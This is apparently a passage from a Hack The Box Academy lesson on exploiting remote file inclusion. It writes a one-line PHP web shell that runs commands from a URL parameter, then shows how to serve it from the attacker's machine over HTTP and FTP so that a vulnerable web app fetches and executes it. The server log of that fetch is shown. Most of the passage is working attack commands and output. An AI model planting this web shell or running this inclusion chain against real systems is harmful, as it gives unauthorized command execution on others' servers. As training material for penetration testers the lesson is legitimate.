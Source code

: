 ```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

```

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

## HTTP

Now, we can start a server on our machine with a basic python server with the following command, as follows:

```shell
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:
![Shipping containers and cranes at a port with user data information displayed.](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:

```shell
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -

```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```shell
sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None

```
